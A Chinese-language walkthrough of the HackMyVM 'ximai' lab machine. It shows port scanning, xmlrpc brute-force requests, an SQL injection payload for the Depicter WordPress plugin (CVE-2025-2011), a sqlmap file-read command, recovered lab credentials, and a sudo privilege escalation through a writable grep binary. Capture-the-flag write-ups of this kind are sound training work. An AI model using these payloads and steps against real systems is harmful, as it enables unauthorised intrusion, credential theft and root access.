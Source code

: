 # Hackmyvm ximai靶机


`port=$(nmap -T4 --min-rate=1000 -p- 192.168.250.66 | awk '/^[0-9]/ {print $1}' | cut -d'/' -f1 | paste -sd,) && nmap -sV -p $port $ip`

>Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 10:04 EDT
Nmap scan report for 192.168.250.66
Host is up (0.00061s latency).
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
25/tcp   open  tcpwrapped
80/tcp   open  http       Apache httpd 2.4.62 ((Debian))
110/tcp  open  tcpwrapped
3306/tcp open  mysql      MariaDB 10.3.23 or earlier (unauthorized)
8000/tcp open  http       Apache httpd 2.4.62 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
>Nmap done: 1 IP address (1 host up) scanned in 17.74 seconds

先看两个http端口，80端口没东西扫描一下目录
有一个reminder.php页面有提示


username字段有mysql报错，但是用sqlmap没有爆出东西。文本提示有一个txt文件，目录源码中图片暴露了扫描路径that-place-where-i-put-that-thing-that-time

使用gobuster扫描出来一个creds.txt
>┌──(root㉿kali)-[~]
└─# curl http://192.168.250.66/that-place-where-i-put-that-thing-that-time/creds.txt
total 8.0K
drwxr-xr-x 2 root root 4.0K May 17 18:43 .
drwxr-xr-x 3 root root 4.0K May 17 18:43 ..
>lrwxrwxrwx 1 root root   15 May 17 18:42 creds.txt -> /etc/jimmy.txt

然后没有信息了，再看看8000端口，是个wp博客
有提示wp插件和sql注入，可能是注入后利用mysqli.allow_local_infile = On任意文件读取
wpscan扫一下信息，发现有个xmlrpc.php可以利用，搜一下怎么利用

查看系统允许的方法
>POST /xmlrpc.php HTTP/1.1
Host: 192.168.250.66:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
>Content-Length: 91

><methodCall>
<methodName>system.listMethods</methodName>
<params></params>
></methodCall>


爆破账户
>POST /xmlrpc.php HTTP/1.1
Host: 192.168.250.66:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
>Content-Length: 167


><methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>admin</value></param>
</params>
></methodCall>
直接用burpsuite爆破，爆破有点慢，先看其他漏洞
>[+] depicter
 | Location: http://192.168.250.66:8000/wp-content/plugins/depicter/
 | Last Updated: 2025-06-17T08:26:00.000Z
 | Readme: http://192.168.250.66:8000/wp-content/plugins/depicter/readme.txt
 | [!] The version is out of date, the latest version is 4.0.4
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.250.66:8000/wp-content/plugins/depicter/, status: 403
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Slider & Popup Builder by Depicter < 3.6.2 - Unauthenticated SQLi via 's' Parameter
 |     Fixed in: 3.6.2
 |     References:
 |      - https://wpscan.com/vulnerability/6f894272-3eb6-4595-ae00-1c4b0c0b6564
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-2011
 |      - https://www.wordfence.com/threat-intel/vulnerabilities/id/49b36cde-39d8-4a69-8d7c-7b850b76a7cd
 |
 | Version: 3.6.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 >|  - http://192.168.250.66:8000/wp-content/plugins/depicter/readme.txt


有cve，跑一下poc，我去没成功。
`http://192.168.250.66:8000/wp-admin/admin-ajax.php?s=test%' AND EXTRACTVALUE(1,CONCAT(0x7e,VERSION(),0x7e))='&perpage=20&page=1&orderBy=source_id&dateEnd=&dateStart=&order=DESC&sources=&action=depicter-lead-index`

注入点在test后面，用sqlmap跑一下
`sqlmap -u "http://192.168.250.66:8000/wp-admin/admin-ajax.php?s=test%25*&perpage=20&page=1&orderBy=source_id&dateEnd=&dateStart=&order=DESC&sources=&action=depicter-lead-index" `
wordpress库中wp_users表有一个用户adminer，密码加密，是bcrypt加密，爆破一下，，但是试了很多字典都不行， 还有一个库zabbix，但是没东西，先再往下看
文件读取
--file-read="/etc/jimmy.txt"

>┌──(root㉿kali)-[~/…/output/192.168.250.66/dump/wordpress]
└─# cat /root/.local/share/sqlmap/output/192.168.250.66/files/_etc_jimmy.txt
>HandsomeHU
有可能是adminer的密码，试了一下不对，之前80端口还有个adminer.php试一下，也不行，那是什么凭证呢，难道是ssh吗
先用sqlmap把/etc/passwd扒拉下来看看有几个用户可以登录
试一下  jimmy/HandsomeHUz

登录进来很多命令都用不了
sorry, you are restricted from using this command.
但是cd到别的目录之后再ls发现会报错./.../ls
可能是环境变量被改了，那只能用绝对路径搞了，/bin/ls，当前目录有user.txt文件，后面-a发现有个bashrc，里面把那一行export PATH=\"./...\删掉，重新登陆就行了
后面扒拉不到什么，上传linpeas，跑不了，看wp，给grep改了，当时不知道，就继续扒拉。然后没头绪了，看wp，还是字典问题，adminer/adminer123456
最后的提权比较简单
grep可写
`echo bash > /usr/bin/grep`
`sudo /usr/bin/grep`